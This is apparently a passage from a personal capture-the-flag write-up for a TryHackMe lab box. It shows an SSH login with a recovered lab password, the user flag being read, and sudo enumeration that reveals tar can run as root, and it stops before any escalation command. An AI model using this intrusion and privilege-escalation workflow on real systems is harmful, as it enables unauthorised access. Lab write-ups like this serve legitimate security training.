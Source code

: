 
Now we can connect with **lin : <span style="color: rgb(45, 194, 107);">RedDr4gonSynd1cat3</span>**

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Bounty]
└─$ ssh lin@bounty.thm       
The authenticity of host 'bounty.thm (10.10.58.207)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bounty.thm' (ED25519) to the list of known hosts.
lin@bounty.thm's password: 
Permission denied, please try again.
lin@bounty.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```

## HTTP (80)

<img src="../../Flameshots/23662abdc395d0c0c864d28502cabaae.png" alt="23662abdc395d0c0c864d28502cabaae.png" width="597" height="296" class="jop-noMdConv">

# Privilege Escalation

We check for sudo commands for the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md):

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

